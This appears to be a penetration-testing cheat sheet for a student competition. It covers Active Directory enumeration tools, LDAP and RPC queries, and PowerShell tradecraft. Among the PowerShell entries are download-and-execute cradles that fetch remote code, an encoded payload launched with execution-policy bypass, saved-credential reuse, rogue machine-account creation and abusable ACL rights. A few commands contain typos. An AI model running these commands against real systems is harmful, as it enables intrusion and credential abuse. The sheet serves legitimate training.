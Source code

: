 # **CPTC Reference Sheet**

## Windows / Active Directory

### **Tools**

#### [**Bloodhound CE Install**](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)

```bash
curl -L https://github.com/SpecterOps/BloodHound/raw/main/examples/docker-compose/docker-compose.yml | docker compose -f - up
```

#### [**Bloodhound-Python**](https://github.com/dirkjanm/BloodHound.py)

```bash
python3 -m pip install bloodhound
```

#### [**CrackMapExec**](https://github.com/byt3bl33d3r/CrackMapExec)

```bash
python3 -m pip install pipx 
pytohn3 -m pipx install crackmapexec
python3 -m pipx ensurepath
```

#### [**Rubeus**](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)


[**Ghostpack Binaries**](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### [**ILSpy (Avalonial)**](https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip)

#### [**JAWS**](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

#### [**Kerbrute**](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64)

#### [**PowerSploit**](https://github.com/PowerShellMafia/PowerSploit) and [**PowerMad**](https://github.com/Kevin-Robertson/Powermad)

```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git
```

```bash
git clone https://github.com/Kevin-Robertson/Powermad.git
```

#### [**WES-NG**](https://github.com/bitsadmin/wesng)

```bash
python3 -m pip install wesng
wes --update
```

#### [**WinPEAS_bat**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEAS.bat) **/** [**WinPEAS_x64**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEASx64.exe) **/** [**WinPEAS_x86**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEASx86.exe) **/** [**WinPEAS_any**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEASany.exe)

### **LDAPsearch**

**Comparison Operations**

```powershell
(&(objectClass=Group)(CN=Exchange*)); (|(objectClass=Group)(CN=Exchange*)); (!(&(objectClass=Group)(CN=Exchange*)))`
```

**Dump (No-Auth)**

```bash
ldapsearch -LLL -H ldap://<domain> -x -s base ""
```

**Full Dump (Authenticated)**

```bash
ldapsearch -LLL -H ldap://<domain> -x -w <passsword> -D '<user>@<domain>' -b 'DC=<domain>,DC=<tld>' "(objectClass=*)"
```

**Get All Groups / Group Members**

```bash
ldapsearch -LLL -H ldap://<domain> -x -w <passsword> -D '<user>@<domain>' -b 'DC=<domain>,DC=<tld>'  "(objectClass=Group)" member memberof
```

### **RPCClient**

```bash
rpcclient -U <user> --password=<password> -c <rpc-command> <host>
```
```
enumdomusers
querydominfo
samlookupnames <domain|builtin> <user>
queryuser <user_RID>
querygroupmem <group_RID>
samlookuprids
```

## **PowerShell**

[**Pentesting w/ PowerShell**](https://jonlabelle.com/snippets/view/markdown/basic-windows-powershell-commands-for-pentesting)

[**SANS PowerShell Cheat Sheet**](https://www.sans.org/blog/sans-pen-test-cheat-sheet-powershell/)

**Download / Execute Files**

```powershell
Invoke-WebRequest -uri <url> -outfile <outputfile> # Just Download
```

```powershell
Invoke-Expression (New-Object Net.WebClient).downloadString("<url>")
```

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','<url>',$false)
$h.send()
iex $h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("<url>")
$r = $wr.GetResponse() 
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

**Mute Web Warning in PowerShell v3+**

```powershell
$Env:PSModulePath.Split(';') | % { if ( Test-Path (Join-Path $_ PowerSploit) ) {Get-ChildItem $_ -Recurse | Unblock-File} }
```

**Authenticate to Remote SMB Share**

```powershell
net use \\<ip>\<share> /user:<user> <password>
```

**Transfer Files From Share**

```powershell
ROBOCOPY \\<IP>\<SharePath> <Destination> -E /COPY:DAT

COPY \\<IP>\<SharePath> <Destination>
```

**Create PSCredential**

```powershell
$user = whoami
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
```

**B64 Encode / Decode**

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("myCommand"))
```
```powershell
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('JwBtAHkAUwB0AHIAaQBuAGcAJwA='))
```

**Execute B64 Encoded Payload**

```powershell
kali> echo -n "IEX(New-Object Net.WebClient).downloadString('http://<host:port>/<filename>')" | iconv -t > UTF-16LE | base64 -w0

PS> powershell [-nop] -ep bypass -encodedCommand <Base64>
```

**Run PS as Different User** *(No profile)*

```powershell
runas /user:<domain>\<user> /noprofile powershell.exe
```

**Check for Cached Credentials**

```bat
cmdkey /list
```

**Use Saved Credential**

```powershell
C:\Windows\System32\runas.exe /user:<Domain>\<Username> /savecred <executable>
```

**Enum Local Users**

```powershell
Get-LocalUser | ft Name,Enabled,Description,LastLogon
```

**List Users Directory**

```powershell
Get-ChildItem C:\Users -Force | select Name
```

**Enumerate Object ACL**

```powershell
Get-Acl -Path "<File or Directory>" | fl
```
**Current OS Verison**

```powershell
[System.Environment]::OSVersion.Version
```

**List All Patches**

```powershell
Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}
```

**List Security Patches**

```powershell
Get-Hotfix -description "Security update"
```












**Check Clipboard**

```powershell   
Get-Clipboard
```

**Check Recycle Bin**

```powershell
$shell = New-Object -com shell.application
$rb = $shell.Namespace(10)
$rb.Items()
```








### ***PowerView***

**Get ACL for Object**

```powershell
Get-ObjectAcl -Identity "<dn>" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "<SID>"}`
```
**Grant Right to Domain Object**

```powershell
Add-DomainObjectAcl -Credential $cred -TargetIdentity "<machine_account>" -Rights <RIGHT>
```

**Get Machine Account SID**

```powershell
$ComputerSid = Get-DomainComputer ohno -Properties objectsid | Select -Expand objectsid
```

### ***PowerMad***

**Add Machine Account**

```powershell
New-MachineAccount -MachineAccount <attacker> -Password $(ConvertTo-SecureString '<password>' -AsPlainText -Force)
```

### **Permissions / Policy**

**Interesting ACE/DACL**

```
GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group
```

# Linux

### **Enumeration**

#### [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh)

#### [**LinEnum**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

#### [**LES**](https://github.com/The-Z-Labs/linux-exploit-suggester.git)


## Docker

### **Enumeration**

[**CDK**](https://github.com/cdk-team/CDK/releases/download/v1.5.2/cdk_linux_amd64)

[**AmIContained**](https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64)

[**DEEPCE**](https://github.com/stealthcopter/deepce/raw/main/deepce.sh)

[**Grype**](https://raw.githubusercontent.com/anchore/grype/main/install.sh)

```bash
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b <InstallPath>
```
